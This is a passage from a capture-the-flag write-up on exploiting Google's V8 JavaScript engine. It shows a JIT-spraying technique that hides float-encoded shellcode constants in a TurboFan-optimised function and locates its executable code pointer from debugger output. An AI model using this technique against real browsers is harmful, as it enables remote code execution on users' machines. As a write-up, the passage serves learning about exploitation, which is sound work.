 ![where_rwx](/assets/tisc-2023/where_rwx.png)

As it turns out, `rwx` pages are no longer allocated to hold compiled WASM code. Unfortunate!

### The wildest RCE technique ever

However, Rotiple_ returns once again to save the day with a bizarre technique.

First, we define a function which simply returns a float array. Then, we force V8 to optimise it by running it many, many times:

```javascript
const f = () => {
    return [1.9555025752250707e-246,
        1.9562205631094693e-246,
        1.9711824228871598e-246,
        1.9711826272864685e-246,
        1.9711829003383248e-246,
        1.9710902863710406e-246,
        2.6749077589586695e-284];
};

for (let i = 0; i < 0x10000; i++) { f(); f(); f(); f(); }
```

The optimised code is placed in an `r-x` page. To find the address of this, we first read the compressed pointer at offset `+0x18` in `f`'s metadata structure - this is the `code` pointer:

```
d8> %DebugPrint(f)
DebugPrint: 0x188f00384d55: [Function] in OldSpace
 - map: 0x188f00242b3d <Map[28](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x188f002429f1 <JSFunction (sfi = 0x188f0020aa5d)>
 - elements: 0x188f00002259 <FixedArray[0]> [HOLEY_ELEMENTS]
 - function prototype: <no-prototype-slot>
 - shared_info: 0x188f00255025 <SharedFunctionInfo f>
 - name: 0x188f000040cd <String[1]: #f>
 - formal_parameter_count: 0
 - kind: ArrowFunction
 - context: 0x188f002550e5 <ScriptContext[3]>
 - code: 0x188f002564ed <CodeDataContainer TURBOFAN> <= this one!
```